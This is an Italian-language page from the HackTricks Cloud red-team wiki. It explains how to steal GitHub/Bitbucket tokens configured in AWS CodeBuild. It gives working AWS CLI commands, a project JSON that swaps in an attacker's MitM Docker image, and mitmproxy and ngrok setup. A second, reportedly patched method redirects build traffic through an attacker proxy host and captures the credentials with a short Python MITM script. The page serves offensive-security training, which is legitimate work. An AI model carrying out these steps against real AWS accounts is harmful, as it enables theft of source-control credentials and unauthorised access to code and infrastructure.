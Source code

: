 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Recupera i Token Configurati di Github/Bitbucket

Prima di tutto, controlla se ci sono credenziali sorgente configurate che potresti leakare:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se scopri che l'autenticazione, ad esempio su Github, è impostata nell'account, puoi **esfiltrare** quell'**accesso** (**token GH o token OAuth**) facendo in modo che Codebuild **utilizzi un'immagine docker specifica** per eseguire la build del progetto.

A questo scopo potresti **creare un nuovo progetto Codebuild** o modificare l'**ambiente** di uno esistente per impostare l'**immagine Docker**.

L'immagine Docker che potresti utilizzare è [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Questa è un'immagine Docker molto basilare che imposterà le **variabili d'ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Questo ti permetterà di intercettare la maggior parte del traffico dell'host indicato in **`https_proxy`** e **`http_proxy`** e di fidarti del certificato SSL indicato in **`SSL_CERT_FILE`**.

1. **Crea e carica la tua immagine Docker MitM**
* Segui le istruzioni del repo per impostare il tuo indirizzo IP proxy e impostare il tuo certificato SSL e **costruire l'immagine docker**.
* **NON IMPOSTARE `http_proxy`** per non intercettare le richieste all'endpoint dei metadati.
* Potresti usare **`ngrok`** come `ngrok tcp 4444` per impostare il proxy sul tuo host.
* Una volta che hai costruito l'immagine Docker, **caricala su un repo pubblico** (Dockerhub, ECR...)
2. **Imposta l'ambiente**
* Crea un **nuovo progetto Codebuild** o **modifica** l'ambiente di uno esistente.
* Imposta il progetto per utilizzare l'**immagine Docker precedentemente generata**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Imposta il proxy MitM nel tuo host**

* Come indicato nel **repo di Github**, potresti usare qualcosa come:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versione di mitmproxy utilizzata era la 9.0.1**, è stato segnalato che con la versione 10 questo potrebbe non funzionare.
{% endhint %}

4. **Esegui la build e cattura le credenziali**

*   Puoi vedere il token nell'intestazione **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Questo potrebbe essere fatto anche dalla aws cli con qualcosa come

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Questa vulnerabilità è stata corretta da AWS in qualche momento della settimana del 20 febbraio 2023 (penso venerdì). Quindi un attaccante non può più abusarne :)**
{% endhint %}

Un attaccante con **permessi elevati in un CodeBuild potrebbe leakare il token di Github/Bitbucket** configurato o se i permessi erano configurati tramite OAuth, il **token OAuth temporaneo utilizzato per accedere al codice**.

* Un attaccante potrebbe aggiungere le variabili ambientali **http\_proxy** e **https\_proxy** al progetto CodeBuild puntando alla sua macchina (ad esempio `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Poi, cambiare l'URL del repository github per utilizzare HTTP invece di HTTPS, ad esempio: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Poi, eseguire l'esempio base da [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) nella porta indicata dalle variabili proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Infine, clicca su **Build the project**, le **credenziali** saranno **inviate in chiaro** (base64) alla porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ora un attaccante sarà in grado di utilizzare il token dalla sua macchina, elencare tutti i privilegi che ha e (ab)usare più facilmente rispetto all'utilizzo diretto del servizio CodeBuild.
{% endhint %}

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
